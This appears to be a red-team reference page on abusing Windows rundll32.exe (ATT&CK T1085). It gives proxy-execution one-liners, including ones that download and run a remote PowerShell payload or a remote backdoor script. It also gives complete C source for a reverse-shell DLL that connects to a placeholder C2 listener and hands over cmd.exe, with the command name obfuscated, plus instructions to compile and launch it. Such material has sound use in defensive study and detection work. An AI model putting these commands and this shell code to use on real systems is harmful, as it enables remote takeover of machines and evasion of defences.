 # Rundll32

---
* **ID**: T1085
* **Source**: <https://attack.mitre.org/techniques/T1085/>
---

# Details

## Execute
### AllTheThingsx64 would be a .DLL file and EntryPoint would be the name of the entry point in the .DLL file to execute.
```
rundll32.exe AllTheThingsx64,EntryPoint
(e.g. rundll32.exe example.dll,DllMain)
```
* Usecase: Execute dll file
* Privileges required: User
* OS: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10

### Use Rundll32.exe to execute a JavaScript script that runs a PowerShell script that is downloaded from a remote web site.
```
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://ip:port/');"
```
* Usecase: Execute code from Internet
* Privileges required: User
* OS: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10

### Use Rundll32.exe to execute a JavaScript script that runs calc.exe.
```
rundll32.exe javascript:"\..\mshtml.dll,RunHTMLApplication ";eval("w=new%20ActiveXObject(\"WScript.Shell\");w.run(\"calc\");window.close()");
```
* Usecase: Proxy execution
* Privileges required: User
* OS: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10

### Use Rundll32.exe to execute a JavaScript script that runs calc.exe and then kills the Rundll32.exe process that was started.
```
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WScript.Shell").run("calc.exe",0,true);try{h.Send();b=h.ResponseText;eval(b);}catch(e){new%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im rundll32.exe",0,true);}
```
* Usecase: Proxy execution
* Privileges required: User
* OS: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10

### Use Rundll32.exe to execute a JavaScript script that calls a remote JavaScript script.
```
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:https://raw.githubusercontent.com/3gstudent/Javascript-Backdoor/master/test")
```
* Usecase: Execute code from Internet
* Privileges required: User
* OS: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10

### Use Rundll32.exe to load a registered or hijacked COM Server payload. Also works with ProgID.
```
rundll32.exe -sta {CLSID}
```
* Usecase: Execute a DLL/EXE COM server payload or ScriptletURL code.
* Privileges required: User
* OS: Windows 10 (and likely previous versions)

## Create a DLL file for Rundll32
* Download and Install `MinGW`:
  * Ubuntu:
  ```
  apt-get install mingw-w64
  ```
  * Windows:
    * <https://sourceforge.net/projects/mingw-w64/>
    * <https://www.rose-hulman.edu/class/csse/resources/MinGW/installation.htm>
* Create a .c file with the following codes (simple reverse shell in C):

```
/* Windows Reverse Shell*/

#define REVERSEIP "<ip_of_C2>" // change to your listener IP
#define REVERSEPORT <port_of_C2>  // change to your listener Port

#include <winsock2.h>
#include <stdio.h>
#include <stdlib.h>

#pragma comment(lib, "w2_32")

WSADATA wsaData;
SOCKET Winsock;
SOCKET Sock;
struct sockaddr_in hax;
char aip_addr[16];
STARTUPINFO ini_processo;
PROCESS_INFORMATION processo_info;


BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpvReserved)
{
    WSAStartup(MAKEWORD(2,2), &wsaData);
    Winsock=WSASocket(AF_INET,SOCK_STREAM,IPPROTO_TCP,NULL,(unsigned int)NULL,(unsigned int)NULL);

    hax.sin_family = AF_INET;
    hax.sin_port =  htons(REVERSEPORT);
    hax.sin_addr.s_addr = inet_addr(REVERSEIP);      

    WSAConnect(Winsock,(SOCKADDR*)&hax, sizeof(hax),NULL,NULL,NULL,NULL);
    if (WSAGetLastError() == 0) {

        memset(&ini_processo, 0, sizeof(ini_processo));

        ini_processo.cb=sizeof(ini_processo);
        ini_processo.dwFlags=STARTF_USESTDHANDLES;
        ini_processo.hStdInput = ini_processo.hStdOutput = ini_processo.hStdError = (HANDLE)Winsock;

        char *myArray[6] = { "cm", "trump", "putin", "d.e", "x", "e" };
        char command[8] = "";
        snprintf( command, sizeof(command), "%s%s%s%s", myArray[0], myArray[3], myArray[4], myArray[5]);

        CreateProcess(NULL, command, NULL, NULL, TRUE, CREATE_NO_WINDOW, NULL, NULL, &ini_processo, &processo_info);
        exit(0);
    } else {
        exit(0);
    }    
}
```

* Compile the .c file to .dll file:
  * Ubuntu:
  ```
  i686-w64-mingw32-gcc -c shell.c
  i686-w64-mingw32-gcc -shared -o shell.dll shell.o -lws2_32
  ```
  * Windows:
  ```
  gcc -c shell.c
  gcc -shared -o shell.dll shell.o -lws2_32
  ```
- Run it through `rundll32.exe`:
```
rundll32.exe shell.dll,DllMain
```

# References

* <https://lolbas-project.github.io/lolbas/Binaries/Rundll32/>
* <https://www.puckiestyle.nl/c-simple-reverse-shell/>
